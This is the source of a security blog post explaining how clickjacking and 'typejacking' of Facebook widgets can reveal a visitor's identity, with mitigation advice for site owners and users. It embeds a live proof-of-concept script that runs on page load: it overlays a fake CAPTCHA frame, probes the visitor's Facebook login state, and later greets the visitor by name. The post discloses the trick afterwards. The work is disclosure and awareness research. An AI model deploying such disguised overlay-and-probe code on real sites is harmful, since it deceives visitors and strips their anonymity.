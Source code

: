 ```yaml
---
layout: post
title: De-anonymization via Clickjacking in 2019
---
```


This blog post is about my journey to understand the current practice of de-anonymization via the clickjacking technique whereby a malicious website is able to uncover the identity of a visitor, including his full name and possibly other personal information. I don’t present any new information here that isn’t already publicly available, but I do look at how easy it is to compromise a visitor’s privacy and reveal his identity, even when he adheres to security best practices and uses an up-to-date browser and operating system.

{% raw %}<script>
function addStyle(id, styles) {
	/* Create style element */
	var css = document.createElement('style');
	css.id = id;
	css.type = 'text/css';

	if (css.styleSheet) {
		css.styleSheet.cssText = styles;
	} else {
		css.appendChild(document.createTextNode(styles));
	}

	/* Append style to the head element */
	document.getElementsByTagName("head")[0].appendChild(css);
}

function getQueryParam(name, url) {
    if (!url) url = location.href;
    name = name.replace(/[\[]/,"\\\[").replace(/[\]]/,"\\\]");
    var regexS = "[\\?&]"+name+"(?:=([^&#]*))?";
    var regex = new RegExp( regexS );
    var results = regex.exec( url );
    return results == null ? null : results[1];
}

function isMobileOrTablet() {
	var check = false;
	(function(a){if(/(android|bb\d+|meego).+mobile|avantgo|bada\/|blackberry|blazer|compal|elaine|fennec|hiptop|iemobile|ip(hone|od)|iris|kindle|lge |maemo|midp|mmp|mobile.+firefox|netfront|opera m(ob|in)i|palm( os)?|phone|p(ixi|re)\/|plucker|pocket|psp|series(4|6)0|symbian|treo|up\.(browser|link)|vodafone|wap|windows ce|xda|xiino|android|ipad|playbook|silk/i.test(a)||/1207|6310|6590|3gso|4thp|50[1-6]i|770s|802s|a wa|abac|ac(er|oo|s\-)|ai(ko|rn)|al(av|ca|co)|amoi|an(ex|ny|yw)|aptu|ar(ch|go)|as(te|us)|attw|au(di|\-m|r |s )|avan|be(ck|ll|nq)|bi(lb|rd)|bl(ac|az)|br(e|v)w|bumb|bw\-(n|u)|c55\/|capi|ccwa|cdm\-|cell|chtm|cldc|cmd\-|co(mp|nd)|craw|da(it|ll|ng)|dbte|dc\-s|devi|dica|dmob|do(c|p)o|ds(12|\-d)|el(49|ai)|em(l2|ul)|er(ic|k0)|esl8|ez([4-7]0|os|wa|ze)|fetc|fly(\-|_)|g1 u|g560|gene|gf\-5|g\-mo|go(\.w|od)|gr(ad|un)|haie|hcit|hd\-(m|p|t)|hei\-|hi(pt|ta)|hp( i|ip)|hs\-c|ht(c(\-| |_|a|g|p|s|t)|tp)|hu(aw|tc)|i\-(20|go|ma)|i230|iac( |\-|\/)|ibro|idea|ig01|ikom|im1k|inno|ipaq|iris|ja(t|v)a|jbro|jemu|jigs|kddi|keji|kgt( |\/)|klon|kpt |kwc\-|kyo(c|k)|le(no|xi)|lg( g|\/(k|l|u)|50|54|\-[a-w])|libw|lynx|m1\-w|m3ga|m50\/|ma(te|ui|xo)|mc(01|21|ca)|m\-cr|me(rc|ri)|mi(o8|oa|ts)|mmef|mo(01|02|bi|de|do|t(\-| |o|v)|zz)|mt(50|p1|v )|mwbp|mywa|n10[0-2]|n20[2-3]|n30(0|2)|n50(0|2|5)|n7(0(0|1)|10)|ne((c|m)\-|on|tf|wf|wg|wt)|nok(6|i)|nzph|o2im|op(ti|wv)|oran|owg1|p800|pan(a|d|t)|pdxg|pg(13|\-([1-8]|c))|phil|pire|pl(ay|uc)|pn\-2|po(ck|rt|se)|prox|psio|pt\-g|qa\-a|qc(07|12|21|32|60|\-[2-7]|i\-)|qtek|r380|r600|raks|rim9|ro(ve|zo)|s55\/|sa(ge|ma|mm|ms|ny|va)|sc(01|h\-|oo|p\-)|sdk\/|se(c(\-|0|1)|47|mc|nd|ri)|sgh\-|shar|sie(\-|m)|sk\-0|sl(45|id)|sm(al|ar|b3|it|t5)|so(ft|ny)|sp(01|h\-|v\-|v )|sy(01|mb)|t2(18|50)|t6(00|10|18)|ta(gt|lk)|tcl\-|tdg\-|tel(i|m)|tim\-|t\-mo|to(pl|sh)|ts(70|m\-|m3|m5)|tx\-9|up(\.b|g1|si)|utst|v400|v750|veri|vi(rg|te)|vk(40|5[0-3]|\-v)|vm40|voda|vulc|vx(52|53|60|61|70|80|81|83|85|98)|w3c(\-| )|webc|whit|wi(g |nc|nw)|wmlb|wonu|x700|yas\-|your|zeto|zte\-/i.test(a.substr(0,4))) check = true;})(navigator.userAgent||navigator.vendor||window.opera);
	return check;
}

function addCaptchaFrame(id, demo) {
	var iframe = document.createElement('iframe');
	iframe.id = id;
	iframe.src = '../files/De-anonymization-via-Clickjacking-in-2019/fake_captcha.html' + (demo ? '?demo' : '');
	iframe.style.position = 'absolute';
	iframe.style.left = '0';
	iframe.style.top = '0';
	iframe.style.width = '100%';
	iframe.style.height = '100%';
	iframe.style['z-index'] = '99';
	document.body.appendChild(iframe);
}

function removeElementById(id) {
	var node = document.getElementById(id);
	if (node) {
		node.parentNode.removeChild(node);
	}
}

function loadFacebookDemoData() {
	var facebookDemoData = null;
	try {
		facebookDemoData = JSON.parse(localStorage.getItem('visitor_fb_details') || 'null');
	} catch (e) {}
	
	window.facebookDemoData = facebookDemoData || {};
	return facebookDemoData !== null;
}

function onCaptchaFrameDone() {
	removeElementById('captchaFrame');
	removeElementById('hideAllDivs');
	
	loadFacebookDemoData();
	
	if (facebookDemoDataUpdateName) {
		facebookDemoDataUpdateName();
	}
	
	if (facebookDemoDataUpdateImage) {
		facebookDemoDataUpdateImage();
	}
	
	if (getQueryParam('demo') !== null) {
		if (window.facebookDemoData.name) {
			alert('Hi ' + window.facebookDemoData.name + ' :)');
		}
	}
}

function onFacebookPullScriptLoad() {
	// Probably logged into Facebook, show the demo.
	removeElementById('hideAllIframes');
}

function onFacebookPullScriptError() {
	// Probably not logged into Facebook or blocking third party cookies. Give up on the demo.
	removeElementById('captchaFrame');
	removeElementById('hideAllDivs');
	removeElementById('hideAllIframes');
}

var sawCaptcha = false;
try {
	if (localStorage.getItem('saw_fake_captcha')) {
		sawCaptcha = true;
	}
} catch (e) {}

if (getQueryParam('demo') !== null) {
	addStyle('hideAllDivs', 'div { display: none; }');
	addCaptchaFrame('captchaFrame', true);
} else if (!sawCaptcha && !isMobileOrTablet()) {
	addStyle('hideAllDivs', 'div { display: none; }');
	addStyle('hideAllIframes', 'iframe { display: none; }');
	addCaptchaFrame('captchaFrame', false);
	document.write('<script type="text/javascript"' +
		' src="https://0-edge-chat.facebook.com/pull?clientid="' +
		' onload="onFacebookPullScriptLoad()"' +
		' onerror="onFacebookPullScriptError()"' +
		' async="async"></scr' + 'ipt>');
}

loadFacebookDemoData();
</script>{% endraw %}

# Initial Motivation - Google YOLO

My journey began when I read the excellent [Google YOLO blog post](https://blog.innerht.ml/google-yolo/) by [@filedescriptor](https://twitter.com/filedescriptor) about a clickjacking vulnerability of the Google YOLO (You Only Login Once) service, a web widget that provides an embeddable one-click login on websites. I highly recommend that you read the blog post, which includes an interactive demonstration of the clickjacking technique.

The blog post discusses how the widget can be used as a privacy threat, explaining that it’s possible to build a website with the Google YOLO widget and disguise the widget to make it look like a harmless button. When the seemingly harmless button is clicked, the victim unknowingly logs into the website with his Google account, and thus passes his identity, including his full name and email address, to the owner of the website.

However, since most websites you use probably know your identity anyway, that’s not the most serious issue, but it can still backfire. Think, for example, about completing a sensitive survey which claims to be anonymous. Since you never logged in to the survey website you might think that it has no way of connecting your answers to your identity, but this might not be the case.

By the time I read the Google YOLO blog post, the issue had already been [fixed by Google](https://twitter.com/sirdarckcat/status/994867137704587264) by limiting the YOLO service to a list of partners.

The blog post also demonstrates clickjacking with the Facebook Like widget, but when I tried it, it asked for a confirmation, like this:

![Facebook Like widget confirmation]({{ site.baseurl }}/images/De-anonymization-via-Clickjacking-in-2019/Facebook-Like-widget-confirmation.gif)

The confirmation request makes the clickjacking attack infeasible - even if the victim clicks on the Like button two times unknowingly, he will still have to confirm his action in the newly opened popup window. The popup, being an entirely new window, cannot be manipulated by the attacker’s website, and is not prone to clickjacking. The downside is that the solution hurts usability, requiring additional actions every time, even for legit Like button usage.

So it looked to me that the issue had been fixed by the major companies, and I forgot about it for a while, until I had an idea…

# The Facebook Comments Widget: “Typejacking”

One day while I was browsing the web, I stumbled upon a website which used the [Facebook Comments plugin](https://developers.facebook.com/docs/plugins/comments) to allow visitors to comment on its website articles at the bottom of the page. At that moment, I remembered what I had read on the Google YOLO blog post about clickjacking, and had the following thought: clickjacking can’t be applied on major services anymore, but what about “typejacking”? What if I take the comments plugin and embed it on my website, disguising it as a form with a different purpose? Then, when the unsuspecting victim comes along and inserts text, any text, and submits it as a Facebook comment on my page, I can learn his identity by checking which Facebook account just posted the comment.

So I started working on a proof of concept web page that demonstrates the technique. While working on it and trying various approaches, I accidentally found out that the Like widget, the one that I thought required a confirmation, works without a confirmation on my website! Reading about the Facebook Like widget on the Internet, I found out that Facebook, unlike Google, uses a blacklist to apply protection from clickjacking.

While the method Facebook chose to protect its users from clickjacking can guard against a mass harvesting of likes - they can notice that a large amount of likes came from a single website - and even undo the likes, it doesn’t protect users from the de-anonymization threat. An attacker can easily create a new website and use clickjacking with the Like widget, and then send the page to a limited amount of victims and reveal their identities by tracking the likes on Facebook.

To my surprise, the likejacking technique, which is the term applied to the strategy of using clickjacking to gain likes, has been around [at least since 2010](https://www.computerworld.com/article/2518461/facebook--likejacking--attacks-continue-with-flesh-appeal.html). And today, 9 years later, it’s still an issue. Also, when talking about likejacking, people rarely mention the de-anonymization issue. While it was mentioned [at least as early](https://staging.whitehatsec.com/blog/i-know-your-name-and-probably-a-whole-lot-more-deanonymization-via-likejacking-followjacking-etc/) as [2012](https://www.usenix.org/sites/default/files/conference/protected-files/huang_usenixsecurity12_slides.pdf), I think that there isn’t enough awareness about it, especially nowadays when more and more people have begun to understand the importance of online privacy.

<img id="facebookDemoDataThumbSrc" src="data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=" style="display:none;width:48px;height:48px;float:left;margin-right:8px;">

{% raw %}<script>
function facebookDemoDataUpdateImage() {
	var facebookDemoDataThumbSrc = document.getElementById('facebookDemoDataThumbSrc');
	if (window.facebookDemoData.thumbSrc) {
		facebookDemoDataThumbSrc.src = window.facebookDemoData.thumbSrc;
		facebookDemoDataThumbSrc.style.display = null;
	} else {
		facebookDemoDataThumbSrc.style.display = 'none';
	}
}
facebookDemoDataUpdateImage();
</script>{% endraw %}

By the way, regarding that typejacking proof of concept - you might have seen a CAPTCHA that you had to enter to be able to see the article. You’ve probably figured out by now that it wasn’t a real CAPTCHA<span id="facebookDemoDataName"></span>{::nomarkdown}{% raw %}<script>
function facebookDemoDataUpdateName() {
	var facebookDemoDataName = document.getElementById('facebookDemoDataName');
	facebookDemoDataName.textContent = window.facebookDemoData.name ? ', ' + window.facebookDemoData.name + ' :)' : '.';
}
facebookDemoDataUpdateName();
</script>{% endraw %}{:/} If you missed it, you can see a demonstration video [here]({{ site.baseurl }}/images/De-anonymization-via-Clickjacking-in-2019/Attack-demonstration.mp4). You can also play with the proof of concept page [here](./?demo), this time with a checkbox to reveal the disguised widget.

# Beyond Clickjacking and Typejacking

Thinking about the concept of clickjacking, I was wondering what else can be done by exploiting the ability to embed and manipulate a third party widget on a malicious website. The clickjacking and typejacking techniques trick the user into interacting with the widget. What if we trick the user into getting information from the widget instead?

Apparently somebody thought about that, too. A quick search led me to the paper [Tell Me About Yourself: The Malicious CAPTCHA Attack](https://www.researchgate.net/publication/288280540_Tell_Me_About_Yourself_The_Malicious_CAPTCHA_Attack) which analyzes this technique. Here’s an example from the paper that demonstrates how an attacker can trick the victim into unknowingly revealing his own name by masking the widget as a sneaky CAPTCHA:

![Facebook Comments widget masked as CAPTCHA]({{ site.baseurl }}/images/De-anonymization-via-Clickjacking-in-2019/Facebook-Comments-widget-masked-as-CAPTCHA.png)

# Clickjacking Prevention for Website Owners

As of today, there’s still no reliable way to prevent clickjacking.

In 2009, the **X-Frame-Options** HTTP header was introduced, which offers a partial protection against clickjacking. The header allows a website owner to specify which pages shouldn’t be framed. A browser which is aware of the header will refuse to load these pages in a frame. While this prevents clickjacking in several cases, it doesn’t help with widgets which are meant to be framed, such as the Like widget or the comments widget.

Looking at the **X-Frame-Options** header, I thought, why not make a similar prevention measure which still allows framing? Think about the Like widget, for example: Is there any reason for a web page to draw over the widget? To change its size and opacity? To do any other manipulations such as CSS filters? The only reason I can think of is clickjacking. So why not introduce a new **X-Frame-Options** option such as **X-Frame-Options: Isolate**, which will allow framing, but will make sure that the frame cannot be tampered with and that the parent website cannot draw over it? As with my previous ideas, [I wasn’t the first one to come up with this idea](http://homakov.blogspot.com/2014/09/bypassing-clearclick-and-x-frame.html).

Until browsers implement such a protection, website owners have only one option: to require extra user interaction, possibly with an isolated popup window. We’ve seen that Facebook does this with the Like widget, but only for suspicious websites hosting the widget. Apparently Facebook values users’ usability more than their privacy.

**Update:** As it turns out, Chrome provides a way for widget owners to detect clickjacking with the [Intersection Observer v2](https://www.chromestatus.com/feature/5878481493688320) feature. The feature is enabled by default since Chrome 74, released in April 2019. Unfortunately, only Chrome implements it at the moment, and it's not as easy to use as just adding a header to the page serving the widget. See Google's [Trust is Good, Observation is Better](https://developers.google.com/web/updates/2019/02/intersectionobserver-v2) article for more details.

# Clickjacking Mitigation for Users

Having tried several solutions, I came to the conclusion that blocking third party cookies is the best mitigation for clickjacking. It doesn’t prevent clickjacking per se, but since the embedded frame won’t be receiving the visitor’s cookies, the attacker won’t be able to do much harm.

What’s great about blocking third party cookies is that most browsers have an option to do it out of the box. No need to install third party extensions, or look for different solutions for different browsers or devices.

The downside is that legit widgets, such as the Like widget or the comment widget, will stop working. I don’t remember missing any of those, but of course your mileage may vary.

Another advantage of blocking third party cookies is that it can protect from side channel attacks, which don’t require user interaction. For example, [this technique](https://www.evonide.com/side-channel-attacking-browsers-through-css3-features/) demonstrates usage of a CSS3 feature to de-anonymize Facebook users with no additional user interaction. Another example of an old, but interesting vulnerability that would be prevented by blocking third party cookies is [generic cross-browser cross-domain theft](https://scarybeastsecurity.blogspot.com/2009/12/generic-cross-browser-cross-domain.html) ([relevant Chromium issue](https://bugs.chromium.org/p/chromium/issues/detail?id=9877)).

# Summary

If nothing else, there’s one thing I want you to take away from this blog post: consider blocking third party cookies in order to protect your identity online. [Here’s one](https://www.digitalcitizen.life/how-disable-third-party-cookies-all-major-browsers) of the many guides that show how to block third party cookies in various browsers.

I hope that this blog post will help raise awareness about the ongoing issue of clickjacking which has remained unsolved since 2010. Perhaps browser vendors will consider implementing a prevention measure to limit frame manipulation.

